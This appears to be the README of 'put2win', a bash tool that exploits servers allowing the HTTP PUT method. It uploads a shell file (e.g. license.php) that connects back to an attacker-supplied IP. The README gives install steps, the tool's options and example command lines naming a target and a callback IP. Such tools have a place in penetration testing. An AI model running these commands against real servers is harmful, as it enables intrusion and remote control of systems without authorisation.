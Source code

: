 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automate PUT HTTP method exploitation to get shell.

[![asciicast](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb.svg)](https://asciinema.org/a/vw0wGOc6BmYIFoWKiY0YkanLb)


# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
Script to automate PUT HTTP method exploitation to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - bash put2win.sh -t 192.168.1.80 -l 192.168.1.10 -s readme.php
 - bash put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
